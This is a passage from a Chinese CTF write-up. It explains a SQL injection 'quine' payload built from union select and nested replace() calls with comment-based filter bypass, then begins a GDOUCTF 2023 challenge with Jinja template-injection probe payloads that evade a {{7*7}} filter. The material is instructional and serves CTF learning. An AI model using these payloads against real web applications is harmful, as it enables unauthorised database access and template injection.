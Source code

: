 ```

完整的Quine就是Quine基本形式+str基本形式
```


回过头来再看我们的payload

1'/**/union/**/select/**/replace(replace('',char(34),char(39)),char(46),'')#
可理解成我们的Quine的基本形式

1"/**/union/**/select/**/replace(replace(".",char(34),char(39)),char(46),".")#
这个就是我们str的基本形式

先将str里的双引号替换成单引号
1'/**/union/**/select/**/replace(replace('.',char(34),char(39)),char(46),'.')#
最终通过来回替换的形式达到了我们的目的

现在就明白了为什么我们的内层replace里面有一个单独的’’

Quine形式多变，修改的时候切记str对应也要修改

# [GDOUCTF 2023]<ez_ze>

>ssti

![alt text](image-4.png)
这个页面可以猜测是ssti,尝试{{7*7}}，结果被过滤了
可以通过这个语句来查询是否存在ssti
```bash
{%if 条件%}result{%endif%}
 
 
解释一下 如果条件里为真 就输出 result 否则不输出
 
修改一下
{%if not a%}yes{%endif%}
 
第二种
 
{%print 123%}
 
通过输出123来判断
```